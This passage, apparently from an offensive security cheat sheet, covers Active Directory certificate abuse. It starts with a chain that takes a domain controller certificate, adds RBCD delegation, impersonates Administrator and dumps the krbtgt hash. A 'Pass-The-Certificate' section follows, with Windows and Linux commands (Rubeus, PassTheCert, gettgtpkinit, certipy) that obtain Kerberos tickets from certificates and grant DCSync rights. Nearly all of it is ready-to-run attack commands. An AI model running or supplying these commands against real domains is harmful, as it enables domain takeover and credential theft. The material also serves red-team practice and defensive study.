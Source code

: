   ```ps1
  certipy auth -pfx ./dc.pfx -dc-ip 10.10.10.10

  openssl pkcs12 -in dc.pfx -out dc.pem -nodes
  bloodyAD -d lab.local  -c ":dc.pem" -u 'cve$' --host 10.10.10.10 add rbcd 'CRASHDC$' 'CVE$'
  getST.py -spn LDAP/CRASHDC.lab.local -impersonate Administrator -dc-ip 10.10.10.10 'lab.local/cve$:CVEPassword1234*'   
  secretsdump.py -user-status -just-dc-ntlm -just-dc-user krbtgt 'lab.local/Administrator@dc.lab.local' -k -no-pass -dc-ip 10.10.10.10 -target-ip 10.10.10.10 
  ```

## Pass-The-Certificate

> Pass the Certificate in order to get a TGT, this technique is used in "UnPAC the Hash" and "Shadow Credential"

* Windows

  ```ps1
  # Information about a cert file
  certutil -v -dump admin.pfx

  # From a Base64 PFX
  Rubeus.exe asktgt /user:"TARGET_SAMNAME" /certificate:cert.pfx /password:"CERTIFICATE_PASSWORD" /domain:"FQDN_DOMAIN" /dc:"DOMAIN_CONTROLLER" /show

  # Grant DCSync rights to an user
  ./PassTheCert.exe --server dc.domain.local --cert-path C:\cert.pfx --elevate --target "DC=domain,DC=local" --sid <user_SID>
  # To restore
  ./PassTheCert.exe --server dc.domain.local --cert-path C:\cert.pfx --elevate --target "DC=domain,DC=local" --restore restoration_file.txt
  ```

* Linux

  ```ps1
  # Base64-encoded PFX certificate (string) (password can be set)
  gettgtpkinit.py -pfx-base64 $(cat "PATH_TO_B64_PFX_CERT") "FQDN_DOMAIN/TARGET_SAMNAME" "TGT_CCACHE_FILE"
  ​
  # PEM certificate (file) + PEM private key (file)
  gettgtpkinit.py -cert-pem "PATH_TO_PEM_CERT" -key-pem "PATH_TO_PEM_KEY" "FQDN_DOMAIN/TARGET_SAMNAME" "TGT_CCACHE_FILE"

  # PFX certificate (file) + password (string, optionnal)
  gettgtpkinit.py -cert-pfx "PATH_TO_PFX_CERT" -pfx-pass "CERT_PASSWORD" "FQDN_DOMAIN/TARGET_SAMNAME" "TGT_CCACHE_FILE"

  # Using Certipy
  certipy auth -pfx "PATH_TO_PFX_CERT" -dc-ip 'dc-ip' -username 'user' -domain 'domain'
  certipy cert -export -pfx "PATH_TO_PFX_CERT" -password "CERT_PASSWORD" -out "unprotected.pfx"
  ```
